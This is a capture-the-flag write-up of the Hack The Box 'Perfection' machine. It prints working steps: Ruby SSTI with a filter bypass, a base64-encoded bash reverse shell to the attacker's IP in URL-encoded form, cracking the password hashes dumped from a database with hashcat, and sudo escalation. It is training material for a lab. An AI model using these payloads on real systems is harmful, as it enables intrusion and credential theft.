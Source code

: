 ```yaml
---
title: Hack the box Perfection pwned!
date: 2024-03-10 00:00:01 +0000
categories: [hack the box, machine]
tags: [hack the box, machine, perfection, ruby, ssti, password cracking]
img_path: /assets/img/posts/
---
```


![Perfection info](htb-perfection-info.png)
*Perfection info*

## Annotations

>In this article we are going to assume the following ip addresses:
>
>Local machine (attacker, local host): 10.10.16.108
>
>Target machine (victim, Perfection): 10.10.11.253
{: .prompt-info}

## Enumeration

Let's go look for the open ports in the machine using `nmap`:

`nmap -Pn -n -sS -p- --open -T5 --min-rate 5000 -oN nmap_initial.txt 10.10.11.253`

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

## Footprinting

We fine tune the scan to see if we can get more information about the running services:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 80e479e85928df952dad574a4604ea70 (ECDSA)
|_  256 e9ea0c1d8613ed95a9d00bc822e4cfe9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see that there is a web service running on port 80, so we browse to `http://10.10.11.253` and we take a look at the web:

![Home](htb-perfection-weighted-grade-calculation-home.png)
*Home*

![About us](htb-perfection-weighted-grade-calculation-about-us.png)
*About us*

![Weighted Grade Calculator](htb-perfection-weighted-grade-calculation-calculate.png)
*Weighted Grade Calculator*

The web contains a too to calculating student grades based on weighting.
If we look at the bottom, we can see that is powered by [WEBrick](https://en.wikipedia.org/wiki/WEBrick).

![Powered by WEBrick](htb-perfection-webrick.png)
*Powered by WEBrick*

[WEBrick](https://en.wikipedia.org/wiki/WEBrick) is a ruby library provinding HTTP web servers.
If we look at more information on the web with wappalizer, we can see that is using Ruby 3.0.2.

![Wappalizer](htb-perfection-wappalizer.png)
*Wappalizer info*

This versions does not seems vulnerable, so we have to try another approach.

## Foothold

### SSTI (Sever Side Template Injection)

As the only place from which we can enter data is the weighted grade calculator, we can try there some [Ruby SSTIs](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby).
The most convenient way is intercepting the request using burp, send it to the burp repeater and modifying it there.
There's a "bad characters" protection, but we can bypass it using url encoding.
Now that we know that there is a SSTI, we can try to inject a reverse shell.
The first thing is start a listener on our machine:

`nc -lvnp 12345`

Now, we need a reverse shell capable to avoid the "bad characters" protection, so we encoded it on base64:

```bash
echo "bash  -i >& /dev/tcp/10.10.16.108/12345  0>&1" | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTA4LzEyMzQ1ICAwPiYxCg==
```

Now, we wrap it so that the reverse shell will be executed on the server:

`echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTA4LzEyMzQ1ICAwPiYxCg== | base64 -d | bash`


We wrap it so that our payload will be interpreted by ruby taking advantage of the SSTI:

`<%=system("echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTA4LzEyMzQ1ICAwPiYxCg== | base64 -d | bash");%>`

And, finally, we urlencode it:

`%0A<%25%3dsystem("echo+YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTA4LzEyMzQ1ICAwPiYxCg==+|+base64+-d+|+bash");%25>`

Now that we have our payload ready, we will inject it on the request using burp:

![Original request](htb-perfection-wgc-request.png)
*Original request*

![Request payload](htb-perfection-wgc-request-payload.png)
*Request payload*

>Note the "1" before the payload
{: .prompt-warning}

We send the request and we got shell!

### susan

First thing is upgrading the tty to be able to work comfortably:

```bash
script /dev/null -c bash
ctrl+z
stty raw -echo; fg
reset xterm
export TERM=xterm-256color
stty rows 56 columns 209
```

Now, we can start collecting information about our new user:

```bash
susan@perfection:~/ruby_app$ whoami
susan
susan@perfection:~/ruby_app$ id
uid=1001(susan) gid=1001(susan) groups=1001(susan),27(sudo)
```

```bash
susan@perfection:~$ ls -lA
drwxr-xr-x 2 root  root    4096 Oct 27 10:36 Migration
drwxr-xr-x 4 root  susan   4096 Oct 27 10:36 ruby_app
-rw-r----- 1 root  susan     33 Mar 16 19:10 user.txt
```

We got our user flag:

`cat user.txt`

We still  need to escalate privileges, so we keep looking.

```bash
susan@perfection:~$ ls -R Migration/
Migration/:
pupilpath_credentials.db
susan@perfection:~$ ls -R ruby_app/
ruby_app/:
main.rb  public  views

ruby_app/public:
css  fonts  images

ruby_app/public/css:
font-awesome.min.css  lato.css  montserrat.css  w3.css

ruby_app/public/fonts:
JTUHjIg1_i6t8kCHKm4532VJOt5-QNFgpCtr6Hw5aX8.ttf  S6uyw4BMUTPHjx4wWw.ttf

ruby_app/public/images:
checklist.jpg  lightning.png  susan.jpg  tina.jpg

ruby_app/views:
about.erb  index.erb  weighted_grade.erb  weighted_grade_results.erb
```

We see an interesting file: `pupilpath_credentials.db`, so we are going to continue investigating there:

```bash
susan@perfection:~$ file Migration/pupilpath_credentials.db
Migration/pupilpath_credentials.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 6, database pages 2, cookie 0x1, schema 4, UTF-8, version-valid-for 6
```

A sqlite database called credentials... Let's see what contains!

```bash
$ sqlite3 pupilpath_credentials.database

sqlite> .tables
users

sqlite> select * from users;
1|Susan Miller|abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
2|Tina Smith|dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57
3|Harry Tyler|d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393
4|David Lawrence|ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87a
5|Stephen Locke|154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8
```

We have some users with their passwords hashes.

If we review Susan's mails, we will find some useful information:

```bash
$ cat /var/mail/susan
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful students
```

Great! We have the password format and the hash, so we can crack it using hashcat.
We will start with `susan`, since it's our current user.

`echo abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f > hash`
`hashcat -m 1400 hash -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d`

After a while we will have Susan's password, and we will look if she has sudo capabilities.

## Privilege escalation

```bash
$ sudo -l
[sudo] password for susan:
Matching Defaults entries for susan on perfection:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User susan may run the following commands on perfection:
    (ALL : ALL) ALL
```

Nice! She can run all commands as root without password, so we elevate our privileges:

`sudo su`

And, finally, we get our system flag:

`cat /root/root.txt`

![Perfection pwned](htb-perfection-pwned.png)
*Perfection has been pwned*

*Enjoy! ;)*
